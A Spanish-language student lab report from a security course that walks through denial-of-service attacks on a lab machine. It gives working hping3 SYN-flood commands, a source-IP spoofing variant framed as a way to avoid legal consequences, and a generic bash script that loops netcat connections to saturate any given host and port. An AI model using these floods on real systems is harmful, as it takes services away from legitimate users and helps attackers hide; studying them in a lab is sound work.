

# Denegación de Servicio (Práctica 2)

> Ibai Guillén Pacho
> 

> Ing. Informática + TDE
> 

# Objetivo de la práctica

Realizar un ataque de denegación de servicio (DoS) de dos formas: **SYN flood** y **Connection flood**.

# Herramientas

### Whireshark

Analizador de protocolos, utilizado para realizar análisis, solucionar problemas en redes de comunicaciones y para el análisis de datos y protocolos.

[Wireshark · Go Deep.](https://www.wireshark.org)

### Hping

Es un generador y analizador de paquetes de código abierto para el protocolo TCP / IP. Es una de las herramientas comunes que se utilizan para la auditoría de seguridad y las pruebas de firewalls y redes

[Hping - Active Network Security Tool](http://www.hping.org)

### Netcat

Netcat es una herramienta de red que permite a través de intérprete de comandos y con una sintaxis sencilla abrir puertos TCP/UDP en un HOST, asociar una shell a un puerto en concreto y forzar conexiones UDP/TCP.

[Ncat - Netcat for the 21st Century](https://nmap.org/ncat/)

# Víctima

La víctima de los ataques de denegación de servicio son sistemas de computadoras o de red que causa que un servicio o recurso sea inaccesible a los usuarios legítimos. Normalmente provoca la pérdida de la conectividad con la red por el consumo del ancho de banda de la red de la víctima o sobrecarga de los recursos computacionales del sistema atacado.

En este caso la víctima será una página web:



<aside>
ℹ️ La página responde con un mensaje de que todavía no hay una página por defecto para acceder pero esto es suficiente para saber que hay algo detrás que funciona.

</aside>

# SYN flood

Se inicia un número alto de conexiones que nunca son finalizadas, dejando al servidor a la espera del ACK final.

## Creación de paquetes

Para crear los paquetes se usará la herramienta previamente mencionada hping3, la cual entre muchas opciones nos permite utilizar las siguientes características en nuestro ataque:


<aside>
ℹ️ Para consultar todas las opciones usar `hping3 -help`.

</aside>

## Envío de paquetes

Para enviar un número concreto de paquetes al servidor se puede usar el siguiente comando, que manda 10 paquetes SYN al puerto 80 de la dirección 192.168.145.128. 

```bash
hping3 -c 10 -S -p 80 192.168.145.128
```

## Ataque

Sin embargo, para realizar un ataque que sea capaz de incapacitar el servicio harían falta muchos más paquetes, por eso, hping3 tiene un flag que permite realizar inundación y enviar paquetes sin parar.

El comando para dicho ataque sería el siguiente:

```bash
hping3 -S -p 80 --flood 192.168.145.128
```

## Resultados

El ataque comienza lanzando un montón de paquetes, sin embargo, el servidor va finalizando algunas conexiones, pero nunca tantas como las que se abren.


A medida que se envían más paquetes más tarda la página en cargar.


Hasta que finalmente la conexión se cierra por time out, resultado conseguido.


Si finalizamos el ataque podremos ver la cantidad de paquetes que se han enviado al servidor


## Inconveniente

El principal problema de realizarlo de la forma anterior es que el servidor conoce la dirección IP del atacante, lo que podría conllevar a consecuencias legales. Para evitar esto se puede hacer un IP spoofing para ocultar la IP del atacante.

Hping3 nos permite realizar esto con el flag -a, de la siguiente forma:

```bash
hping3 -a 192.168.13.13 -S -p 80 --flood 192.168.145.128
```

De esta forma todos los paquetes tienen como remitente una dirección IP que no señala al atacante.


# Connection flood

Los servicios orientados a conexión (ej: ftp, http, smtp, …) tienen un límite de conexiones
simultáneas soportadas, que al ser alcanzado rechaza conexiones nuevas. Por eso, si se consigue que el atacante posea todas las conexiones se puede anular el servicio.

## Conexión al servidor FTP

Para conectarse al servidor ftp de una máquina hay que conocer dos cosas, la dirección IP de la máquina y el puerto en el que opera el servidor. El primer dato será el mismo que el del anterior ataque 192.168.145.128, mientras que el puerto podemos repetir el paso de la práctica de escaneo de puertos para saber que el puerto 21 es el que tiene un servidor ftp detrás.

Para realizar una conexión simple con netcat deberemos usar el siguiente comando:

```bash
nc 192.168.145.128 21
```

## Ataque

### Creación del script

Para conseguir un ataque de denegación de servicio habría que lanzar muchas veces el comando de netcat, o realizar un pequeño script que realice este proceso por nosotros.

Un script en bash para realizar dicha función tendría la siguiente estructura:

```bash
#!/bin/bash
while true; do
nc 192.168.145.128 21 > /dev/null &
done
```

Sin embargo, el script anterior limita el ataque a una sola víctima, para esto bash permite pasar parámetros por consola al script que se va a ejecutar, de forma que un script genérico sería el siguiente:

```bash
#!/bin/bash
while true; do
nc $1 $2 > /dev/null &
done
```

Una vez teniendo el script creado solo faltaría darle permisos de ejecución:

```bash
chmod 755 DoS.sh
```

### Ejecución del script

Una vez se ejecuta el script se empieza a saturar el servidor ftp:

```bash
./DoS.sh 192.168.145.128 21
```


<aside>
ℹ️ Solo se muestran las conexiones rechazadas porque las realizadas no imprimen nada en pantalla.

</aside>

### Resultados

Si intentamos lanzar en una consola otra conexión esta nos devolverá error 421:


Cuando de normal debería funcionar así:


Esto nos indica que el ataque ha sido un éxito, y si examinamos los paquetes que se han enviado por la red podemos ver el gran flujo que ha habido.


Hasta el punto que incluso de que no conseguía cerrar conexiones a la misma velocidad que se creaban.


# Documentación

Documentación trabajada en Notion, link al formato original:

[Denegación de Servicio (Práctica 2)](https://www.notion.so/Denegaci-n-de-Servicio-Pr-ctica-2-d624cc4a1f5e4a24b1896a5d76e3994c)
